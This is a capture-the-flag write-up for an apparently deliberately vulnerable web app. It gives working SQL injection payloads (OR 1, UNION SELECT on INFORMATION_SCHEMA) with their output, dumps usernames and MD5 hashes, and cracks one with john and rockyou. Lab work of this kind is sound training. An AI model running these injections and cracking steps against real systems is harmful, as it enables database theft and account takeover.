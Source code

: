 # SQLI Credentials

From /?page=member we have an sql injection where we can dump all the db:

```
42 OR 1

First name: one
Surname : me

First name: two
Surname : me

First name: three
Surname : me

First name: Flag
Surname : GetThe
```

Get informations about tables:

```
42 UNION ALL SELECT TABLE_SCHEMA, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES

Database: Member_Brute_Force
Table: db_default

Database: Member_Sql_Injection
Table: users

Database: Member_guestbook
Table: guestbook

Database: Member_images
Table: list_images

Database: Member_survey
Table: vote_dbs
```

Get informations about column name:

```
42 UNION ALL SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS

First name: db_default
Surname : id

First name: db_default
Surname : username

First name: db_default
Surname : password

First name: users
Surname : user_id

First name: users
Surname : first_name

First name: users
Surname : last_name

First name: users
Surname : town

First name: users
Surname : country

First name: users
Surname : planet

First name: users
Surname : Commentaire

First name: users
Surname : countersign

First name: guestbook
Surname : id_comment

First name: guestbook
Surname : comment

First name: guestbook
Surname : name

First name: list_images
Surname : id

First name: list_images
Surname : url

First name: list_images
Surname : title

First name: list_images
Surname : comment

First name: vote_dbs
Surname : id_vote

First name: vote_dbs
Surname : vote

First name: vote_dbs
Surname : nb_vote

First name: vote_dbs
Surname : subject
```

Dump the db_default table:

```
42 UNION ALL SELECT CONCAT(ID, 0x0A, USERNAME, 0x0A, PASSWORD), 42 FROM Member_Brute_Force.db_default

First name: 1
root
3bf1114a986ba87ed28fc1b5884fc2f8
Surname : 42

First name: 2
admin
3bf1114a986ba87ed28fc1b5884fc2f8
Surname : 42
```

Brute force the hash with john:

```
# john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt flag.txt
shadow      (?)
```

Use the credentials to fill the signin page and we get the flag.
